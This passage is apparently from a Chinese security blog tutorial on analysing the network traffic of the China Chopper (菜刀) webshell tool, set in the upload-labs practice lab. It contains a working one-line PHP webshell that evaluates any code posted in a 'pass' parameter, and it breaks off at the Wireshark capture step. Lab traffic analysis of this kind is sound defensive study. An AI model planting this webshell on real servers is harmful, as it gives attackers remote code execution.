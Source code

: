 # 原创
：  29-5 webshell 流量分析 - 菜刀

# 29-5 webshell 流量分析 - 菜刀

环境准备：[构建完善的安全渗透测试环境：推荐工具、资源和下载链接_渗透测试靶机下载-CSDN博客](https://blog.csdn.net/weixin_43263566/article/details/129031187)

#### 一、上传木马到靶场然后使用菜刀连接抓取流量

##### 1）上传木马到upload-labs靶场

自己创建一个php文件作为木马

```
&lt;?php
eval($_POST["pass"]);

```

##### 2）然后开启 Wireshark 抓包，再使用菜刀连接

开启抓包在使用菜刀连接（避免一些没有必绕的流量，筛选起来麻烦） 
